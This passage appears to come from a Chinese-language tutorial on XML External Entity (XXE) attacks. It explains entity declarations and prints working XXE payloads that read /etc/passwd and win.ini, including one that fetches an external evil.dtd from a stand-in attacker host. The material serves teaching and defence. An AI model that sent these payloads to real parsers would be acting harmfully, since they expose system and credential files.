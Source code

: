 ```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe(实体引用名) SYSTEM "file:///etc/passwd"(实体内容) >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
// 这种写法则调用了本地计算机的文件/etc/passwd，XML内容被解析后，文件内容便通过&xxe被存放在了methodname元素中，造成了敏感信息的泄露。
```

## 参数实体声明

<!ENTITY % 实体名称 “实体的值">    or    <!ENTITY % 实体名称 SYSTEM “URI">

示例：

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
外部evil.dtd中的内容。
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```

## 引用公共实体

<!ENTITY 实体名称 PUBLIC "public_ID" "URI">



# 什么是XML外部实体攻击?

- 有了XML实体，关键字 "SYSTEM" 会令XML解析器从URI中读取内容，并允许它在XML文档中被替换
- 攻击者可以通过实体将他自定义的值发送给应用程序，然后让应用程序去呈现
- 攻击者强制XML解析器去访问攻击者指定的资源内容(可能是系统上本地文件亦或是远程系统上的文件)

下面的代码将获取系统上folder/file的内容并呈献给用户

 

Code1

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<foo>
        <value>&passwd;</value>
</foo>
```

Code2

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE b [<!ENTITY entityex SYSTEM "file:///folder/file">]>
<foo>
        <value>&entityex;</value>
</foo>
```
